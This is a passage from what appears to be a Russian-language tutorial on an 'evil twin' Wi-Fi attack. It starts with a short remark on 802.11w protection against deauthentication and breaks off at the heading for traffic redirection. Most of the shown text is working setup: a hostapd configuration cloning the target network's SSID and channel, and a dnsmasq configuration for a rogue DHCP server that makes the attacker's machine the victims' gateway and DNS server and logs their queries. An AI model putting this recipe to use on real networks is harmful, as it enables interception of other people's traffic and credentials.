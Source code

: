 - **Противодействие 802.11w**: Стандарт 802.11w (Protected Management Frames) защищает от таких атак, шифруя управляющие кадры, включая кадры деаутентификации. Однако многие устройства и сети до сих пор не реализуют эту защиту.

### 3. Создание поддельной точки доступа

После деаутентификации клиентов необходимо создать поддельную точку доступа с идентичными параметрами:

- **Настройка hostapad**:
  ```bash
  # Пример конфигурационного файла hostapd
  interface=wlan1mon
  driver=nl80211
  ssid=[Имя целевой сети]
  hw_mode=g
  channel=[Канал целевой сети]
  macaddr_acl=0
  auth_algs=1
  ignore_broadcast_ssid=0
  ```

- **Запуск поддельной точки доступа**:
  ```bash
  hostapd hostapd.conf
  ```

### 4. Настройка DHCP-сервера

Для предоставления IP-адресов клиентам, подключающимся к поддельной точке доступа, необходимо настроить DHCP-сервер:

- **Поддельный DHCP-сервер**: Атакующий настраивает DHCP-сервер, который будет выдавать IP-адреса жертвам и указывать в качестве шлюза по умолчанию и DNS-сервера IP-адрес машины атакующего.

- **Настройка dnsmasq**:
  ```bash
  # Пример конфигурационного файла dnsmasq
  interface=wlan1mon
  dhcp-range=192.168.1.2,192.168.1.30,255.255.255.0,12h
  dhcp-option=3,192.168.1.1
  dhcp-option=6,192.168.1.1
  server=8.8.8.8
  log-queries
  log-dhcp
  listen-address=127.0.0.1
  ```

- **Запуск DHCP-сервера**:
  ```bash
  dnsmasq -C dnsmasq.conf
  ```

### 5. Настройка перенаправления трафика

Для обеспечения доступа в интернет через поддельную точку доступа (что делает атаку менее заметной) и возможности перехвата трафика:
